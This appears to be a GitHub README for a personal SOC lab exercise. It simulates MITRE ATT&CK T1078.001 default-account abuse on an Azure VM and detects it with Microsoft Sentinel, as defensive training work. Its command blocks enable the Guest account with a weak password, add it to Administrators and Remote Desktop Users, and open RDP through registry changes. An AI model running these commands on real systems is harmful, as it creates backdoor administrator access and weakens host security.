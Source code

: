 # T1078.001 — Valid Accounts: Default Accounts

**MITRE ATT&CK Mapping:**  
- **Tactic:** Initial Access  
- **Technique:** T1078.001 — Valid Accounts: Default Accounts  
- **Link:** [MITRE ATT&CK T1078.001](https://attack.mitre.org/techniques/T1078/001/)

## 🧪 Atomic Red Team Simulation by Me

This test is part of my personal SOC detection engineering and investigation workflow.
I’m manually simulating a **default account abuse scenario** on an **Azure VM**, writing the detection logic in **Microsoft Sentinel**, and confirming end-to-end incident response capability.

> **Safety Notice:**
> All testing and simulation is performed strictly within a controlled lab environment (Azure VM in a Cyber Range) that I fully manage. **Never run these techniques on production systems.**

## 📑 Quick Links

* [SOC Investigation Log & Timeline](./soc-investigation-log.md)

---

## 🎯 Objective

* Simulate abuse of the default `Guest` account to gain local admin + RDP access.
* Trigger a custom detection rule in Microsoft Sentinel.
* Confirm an incident is created.
* Begin triage and investigation like a real SOC analyst.

---

## 🧰 Tools & Lab Environment

| Tool / Platform                     | Purpose                                             |
| ----------------------------------- | --------------------------------------------------- |
| **Microsoft Sentinel**              | Detection rules + Incident management               |
| **Log Analytics Workspace**         | Ingests Windows logs from VM                        |
| **Microsoft Defender for Endpoint** | Endpoint telemetry (optional, enabled if onboarded) |
| **Azure Virtual Machine**           | Victim host for test (Windows OS)                   |
| **PowerShell / CMD**                | Manual execution of Atomic test                     |
| **Event Viewer**                    | Local log validation                                |
| **KQL (Kusto Query Language)**      | Custom query logic for Sentinel analytics rules     |

> 🧪 The test is run **manually** in a Cyber Range VM I fully control.

---

## ⚙️ Atomic Test Details

### ✅ Test 1 — Enable Guest + RDP + Admin

* **Technique:** T1078.001
* **Platform:** Windows
* **Atomic GUID:** `99747561-ed8d-47f2-9c91-1e5fde1ed6e0`

#### Manual Execution:

```cmd
net user guest /active:yes
net user guest Password123!
net localgroup Administrators guest /add
net localgroup "Remote Desktop Users" guest /add
reg add "HKLM\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f
reg add "HKLM\SYSTEM\CurrentControlSet\Control\Terminal Server" /v AllowTSConnections /t REG_DWORD /d 1 /f
```

---

### ✅ Test 2 — Activate Guest Only

* **Atomic GUID:** `aa6cb8c4-b582-4f8e-b677-37733914abda`

```cmd
net user guest /active:yes
```

---

## 🧼 Cleanup

```cmd
net user guest /active:no
net localgroup Administrators guest /delete
net localgroup "Remote Desktop Users" guest /delete
reg delete "HKLM\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /f
reg delete "HKLM\SYSTEM\CurrentControlSet\Control\Terminal Server" /v AllowTSConnections /f
```

---

## 🧠 My Detection Workflow

1. Create a **custom Sentinel rule** using KQL to detect:

   * Guest account activation (Event ID 4722)
   * Group membership change (Event ID 4732)
   * Registry changes related to RDP
2. Run the test manually on the victim VM.
3. Monitor Sentinel → confirm **incident is created**.
4. Investigate the alert using full SOC workflow.

---

## 🕵️ SOC Investigation Log

[Jump to Detailed Log & Timeline](#detailed-investigation-log--timeline)

* Review entities: host, user, account, IP
* Check `SecurityEvent` logs in Sentinel
* Look for Defender alerts or RDP telemetry
* Validate Guest was added to `Administrators`
* Look for any follow-up attacker actions
* Document findings

---

## 📍 Forensic Artifacts

| Artifact Type        | Expected Evidence                            |
| -------------------- | -------------------------------------------- |
| Windows Events       | 4722 (enabled account), 4732 (group change)  |
| Registry             | RDP keys modified (AllowTSConnections, etc.) |
| Network Traffic      | Port 3389 activity (if RDP attempted)        |
| Process/Command Logs | `net user`, `net localgroup`, `reg add`      |

---

## ✅ Outcome Checklist

1. [ ] Sentinel rule created
2. [ ] Atomic test run on Azure VM
3. [ ] Incident successfully triggered
4. [ ] Investigation completed
5. [ ] VM cleaned up or reverted

---

## 📚 References

* [MITRE ATT&CK - T1078.001](https://attack.mitre.org/techniques/T1078/001/)
* [Atomic Red Team - GitHub](https://github.com/redcanaryco/atomic-red-team)
* Microsoft Sentinel & Defender Documentation

---

## Detailed Investigation Log & Timeline

> *See [investigation.md](./soc-investigation-log.md) in this folder for the full analyst log, timeline, artifacts, screenshots, and triage details for this test.*

---
